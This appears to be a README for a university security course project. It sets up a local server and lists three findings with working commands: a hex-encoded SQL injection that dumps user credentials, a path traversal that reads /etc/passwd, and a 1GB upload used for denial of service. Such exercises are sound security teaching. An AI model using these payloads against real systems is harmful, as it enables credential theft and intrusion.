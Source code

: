 # csci4271-proj2
- Let url be the path to access 443
"enter" means putting the string in the search bar in web browser, 
lines without "enter" is input in terminal

# Running the program:
git clone...
./install.sh
make
sudo ./bcpwm-server
-> Change to another terminal, navigate to the same directory

# Setting up the database
- Adding a user with hexmail = "1", hexpass = "2":
enter "<url>/init_client/31/32"
- Confirm user added:
enter "<url>/confirm-client/31/32/<token>"
- Adding a rule
enter "<url>/post-rule/init/admin/1"

# Finding 1: Inject SQL to extract all user credentials
payload=$(echo "' UNION SELECT user, password FROM user_pw_table;--" | xxd -p)
curl -k "<url>/init_client/${payload}/31"

# Finding 2: Inject '../' into the file path parameter to read unauthorized files
payload=$(echo "../../etc/passwd" | xxd -p)
enter "<url>/get_rule/${payload}"

# Finding 3: Generate a large file (1GB) and upload it
dd if=/dev/zero of=largefile.txt bs=1M count=1024
curl -X POST -F "file=@largefile.txt" -k "<url>/post-rule/init/validsite/validuser"



